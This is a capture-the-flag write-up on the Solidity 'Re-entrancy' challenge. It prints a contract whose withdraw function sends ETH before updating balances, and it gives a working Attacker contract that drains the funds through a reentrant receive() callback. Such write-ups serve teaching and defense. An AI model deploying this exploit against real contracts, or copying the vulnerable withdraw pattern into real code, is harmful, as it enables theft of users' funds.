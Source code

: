 # Re-entrancy

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

## Goal

steal all the funds from the Reentrance contract

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

The purpose of the Attacker will be to make reentrant callback to some function inside the Reentrance contract.

Reentrancy attacks (<a href="https://swcregistry.io/docs/SWC-107" target="_blank" rel="noopener noreferrer">SWC-107</a>) are very well-known thanks to the infamous <a href="https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942/" target="_blank" rel="noopener noreferrer">DAO hack</a> that happened on the Ethereum network. In a reentrancy attack, a vulnerable contract sends ether to an unknown address that contains a fallback function. Then, a malicious code calls back repeatedly a function in the vulnerable contract before the first call be finished.

In order for reentrancy to happen the vulnerable function must make external function call to uknown address (malicious smart contract).

If we take a look into our code, we can see that the only place where external call is made is inside the withdraw function

```
(bool result,) = msg.sender.call{value:_amount}("");
```

So, in our case if we call the withdraw() function from the Attacker contract (in which case msg.sender will refer to the address of the Atacker contract), from the code above we can see that the Attacker contract is called and we are sending value (ETH) to it. What we know from the previous CTFs is that when we send a value to a smart contract withoud call data, then the receive() function, if present, is called/triggered.

Knowing that we can implement the receive() function in the Attacker contract, in a way that inside receive(), the withdraw() function from the Reentrance contract will be called again, thus not alowing the withdraw() function to complete untill all of the ETH from the Reentrance smart contract is drained.

To exploit the contract we need to:

1. create Attacker contract, and create instance from the Reentrance contract inside the Attacker contract
2. call donate(_to) function inside Reentrance from our EOA account using the Attacker contract address as argument for _to parameter
3. create external receive() function inside Attacker contract, this function will make a reentrant call to the Reentrance contract by calling the withdraw() function within it, as along as address(reentrance).balance is greater than 0

## Attacker contract code

```
contract Attacker {
  Reentrance private immutable reentrance;

  constructor(address payable _reentrance) public {
    reentrance = Reentrance(_reentrance);
  }

  receive() external payable {
    if(address(reentrance).balance > 0) {
      if(address(reentrance).balance > reentrance.balanceOf(address(this))) {
        reentrance.withdraw(reentrance.balanceOf(address(this)));
      } else {
        reentrance.withdraw(address(reentrance).balance);
      }
    }
  }
}
```